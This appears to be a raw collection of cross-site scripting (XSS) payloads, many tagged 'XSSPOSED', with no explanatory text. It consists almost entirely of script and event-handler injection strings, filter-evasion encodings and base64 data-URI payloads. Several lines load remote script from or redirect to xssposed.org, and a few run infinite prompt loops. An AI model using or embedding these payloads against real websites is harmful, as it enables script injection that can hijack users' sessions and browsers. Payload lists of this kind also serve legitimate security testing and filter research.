 <a/onmousemove=alert('XSSPOSED')//><h1>A<br>A<br>A<br>A<br>A<br>A<br>A<br>A<br>A<br>A<br>vrl says /XSS/ <!--

"'/>;</style><script>a=eval;b=alert;a(b(/ XSSPOSED/.source));</script>'">

';alert(/XSSPOSED/)//';alert(/XSSPOSED/)//";alert(/XSSPOSED/)//";alert(/XSSPOSED/)//--></sCRipT>">'><sCRipT>alert(/XSSPOSED/)</sCRipT>

'}};">});});})]--></SCRIPT>-</style>-</title>-</BoDy>-<marquee>-<h1>vrl</h1>-</marquee>-<svg/onload=alert('XSSPOSED');>;{{'

#prettyPhoto[vrl]/1,<img src=x onerror=alert(/XSSPOSED/)>/

\';alert(String.fromCharCode(88,83,83))//\\\';alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//\\\";</SCalert(String.fromCharCode(88String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 72, 51, 65, 82, 84, 95, 66, 76, 51, 51, 68), 83, 83))RIPT>\">\'><SCRIPT>alert("XSSPOSED")</SCRIPT>

';alert(0)//\';alert(1)//";alert(2)//\";alert+(3)//--></SCRIPT>">'+><SCRIPT>alert(/XSSPOSED/)</SCRIPT>=&{}");}alert(6+);function+xss(){//

" onmouseover=alert(/Xssposed/)>vrl
"/>>;--></SCRIPT>vrl<AuDiO/**/oNLoaDStaRt='(_=/**/confirm/**/(/XSSPOSED/))'/src><!--
'"/>>--><iMg/sRc=/**/%0AoneRRoR=%2bal\u0065rt(/XSSPOSED/)>
'"--></style></script>"'/>><img+src=x onerror=alert(/XSSPOSED/)><h1>vrl</h1>
'|alert('XSSPOSED')|'
'*prompt('xssposed')*'
<SCRIPT>alert('XSSPOSED');</SCRIPT>
vrl" onfocus=prompt(/XSSPOSED/) autofocus fragment="
""autofocus/onfocus=alert(/XSSposed/)//"
"><sVG/*_*/vrl/OnLoaD="window['pr\u006fmp\u0074']/*/*/('XSSPOSED')";/>
vrl\"'/>><svg+onload=eval(location.hash.substr(1))>#\u0077hile(\u0074rue){pr\u006fmp\u0074(/XSSPOSED/)}
0'"><script/0~~~>;alert('XSSPOSED');</script/0~~~>
-->"><img x/src=x /onerror="x-\u0063onfirm('XSSPOSED')"><!--
<VidEo/oNLoaDStaRt=confirm(/XSSPOSED/)+/src>
<BoDy%0AOnpaGeshoW=%2bwindow.prompt(/XSSPOSED/)<!--
<video/src=//w3schools.com/tags/movie.mp4%0Aautoplay/onplay=(confirm(document.domain))>
<body/onload=confirm(String.fromCharCode(88,83,83,80,79,83,69,68))>
<p/%0Aonmouseover%0A=%0Aconfirm(/XSSPOSED/)>vrl
<object data='data:text/html;base64,PFNDUklQVD5hbGVydCgnWFNTUE9TRUQnKTs8L1NDUklQVD4=' /src>
<InpuT/**/onfocus=pr\u006fmpt(/XSSPOSED/)%0Aautofocus>vrl
<img src="x:alert" onerror="eval(src%2b'(/XSSPOSED/)')">
<img/src=vrl%0A/**/onerror=eval('al'%2b'ert(/XSSPOSED/)')>
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
<scr<script>ipt>alert('XSS');</scr</script>ipt>
<input type="text" name="foo" value=""autofocus/onfocus=alert(/XSSposed/)//">
<math href="javascript:alert(1)">CLICKME
"'><body/onload=alert('XSSPOSED')//'">
" autofocus onfocus=alert('XSSPOSED') "
'}};alert('XSSPOSED');{{'
<script>alert(navigator.userAgent)</script>
<var onmouseover="prompt(/XSSPOSED/)">vrl</var>-KURD
"><h1/onmouseover='alert(/Xssposed/)'>vrl
<img src=x:alert(alt) onerror=eval(src) alt=XSSPOSED>
<object data="javascript:alert('XSSPOSED')">
"><--'<script>window.confirm('xssposed')</script> --!>
<isindex type=image src=1 onerror=alert('XSSPOSED')>
vrl"><iframe/onload=alert('XSSPOSED')>"><img src=x onerror=prompt('XSSPOSED');>
<script>'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074('\u0031')</script>
<div onmouseover=prompt("/XSSPOSED/")>vrl
"><img src=x onerror=window.open('data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTUE9TRUQnKTwvc2NyaXB0Pg==');>
<plaintext/onmousemove=prompt(1)>vrl
<marquee/onstart=alert('XSSPOSED')>vrl
<embed src=javascript:alert('XSSPOSED')>
'"()&%<xps><ScRiPt >prompt('XSSPOSED')</ScRiPt>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<div/onmouseover='alert(/XSSPOSED/)'>AAA
>\" onfocus=alert(String.fromCharCode(88,83,83,80,79,83,69,68)) autofocus>
"><svg/onload=document.location.href='https://www.xssposed.org'>
"><audio src=x onerror=confirm("XSSPOSED")>
<iframe src="data:text/html;base64,PFNDUklQVD5hbGVydCgnWFNTUE9TRUQnKTs8L1NDUklQVD4="/>
11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'XSSposed
<img%09onerror=alert('XSSPOSED') src=a>
<i onclick=alert(1)>Click here</i>
<title onpropertychange=javascript:alert('XSS')></title><title title=>
<img src=<b onerror=alert('XSS');>
<img src="x:? title=" onerror=alert(1)//">
<img src="x:gif" onerror="eval('al'%2b'ert(0)')">
<img src="x:gif" onerror="window['al\u0065rt'] (/'XSS'/)"></img>
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTUE9TRUQnKTwvc2NyaXB0Pg==
data:text/html,<svg/onload=alert('XSSPOSED')>
javascript:"<script>alert(document.domain)</script>"
<a href=[0x0b]" onclick=alert(1)//">click</a>
vrl"><a onmouseover%3D"alert('XSSPOSED')">vrl
<script/%00%00v%00%00>alert(/vrl/)</script>
<b "<script>alert(1)</script>">hola</b>
'"--><*2f*style><*2f*scRipt><scRipt>alert('XSSPOSED')<*2f*scRipt>
/x"-prompt(/XSSPOSED/)-"
'+confirm(/XSSPOSED/)+'
<%tag style=”xss:expression(alert(123))”>
</XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>
/vrl"><img src=x onerror=prompt('XSSposed')>
'></a></title><bod y onpageshow=prompt(/XSSPOSED/)>
?vrl</script><svg/onload=alert(/XSSPOSED/)//vrl
vrl"><svg/onload=document.location.href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>
\x3cscript src=https://xssposed.org/1.js\x3e\x3c/script\x3e
@vrl<script>$='XSSPOSED',alert($)< /script>-vrl/
"--> </script><svg/onload=';alert(/XSSPOSED/);'>
%27%22%3E%3Csvg/onload=prompt%28/XSSPOSED/%29%3E
'"--></style></script>"'/>><img+src=x onerror=alert(/XSSPOSED/)><h1>vrl
"<img src=https://xssposed.org/1.js onerror=prompt('XSSPOSED')><
"><h1>vrl<script>alert(1)</script>
\x22\x3E\x3C\x2Fscript\x 3E\x3Cscript src\x3Dhttps\x3A\x2F\x2Fxssposed.org\x2F1.js\x3E
"><svg%2Fonload%3Dalert(%2FXSSPOSED%2F)>
<h1>vrl<br><br><br><br><img src=x onerror=prompt(String.fromCharCode(47,88,83,83,80,79,83,69,68,47)) /><!--
<svg•onload=alert(/XSSPOSED/)>
vrl"><svg onload=alert('XSSPOSED')>
"])},alert('XSSPOSED'));(function xss() {//
""});});});alert('XSSPOSED');$('a').each(function(i){$(this).click(function(event){x({y
<svg onload=alert('XSSPOSED')>
"><h1/onmouseover='alert(/Xssposed/)'>XSSPOSED
"+autofocus+onfocus%3D"alert('XSSPOSED')
</script>< img src=x onerror=alert(/XSSPOSED/)><!--
xss"/onmouseover="alert('XSSPosed')
">@vrl<svg%2Fonload%3Dalert(%2FXSSPOSED%2F)>
'"><svg/onload=alert(/XSSPOSED/)>
"><img+src=a+onerror=prompt(/XSSposed/)>
vrl"</title>'>><BoDy!><BODY onpageshow=prompt(/XSSPOSED/)></
"/><iframe/onload=prompt(/XSSPOSED/)>
<img src=x onerror=alert(/XSSPOSED/)>
"><img+src%3Dx+onerror%3Dprompt('XSSPOSED')>
" onmouseover=alert(/Xssposed/)>
"onerror=alert(/XSSPOSED/)>
vrl-->hacker<svg/onload=alert('XSSPOSED')//
"";<%2Fscript><script>prompt(%2FXSSPOSED%2F)<%2Fscript><"
vrl\'); alert("XSSPOSED");//
"><script>setTimeout("alert(/XSSPOSED/)",1000);</script><a x="
<video onerror=alert(1337) </poster>
<input onfocus=alert(1337) </autofocus>
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert('xss');</x:script>
'"/>></script><script>alert("XSSPOSED")</script>
</script><img src=x onerror=while(true){prompt(/XSSposed/)}>
<script>x='con';s='firm';S='(1)';setTimeout(x+s+S,0);</script>
<script </src="data:,1> (alert)(1337) "">
<script src=data:;base64,YWxlcnQoMTMzNyk=>
</title><script>alert(/XSSPOSED/)</script>
x");$=alert, $('XSSposed');//
'"/>></scr ipt><script>alert("XSSPOSED")</script>
#prettyPhoto[gallery]/1,<a onclick="alert(/XSSPOSED/);">/
"";</script><script>prompt(/XSSPOSED/)</script><"
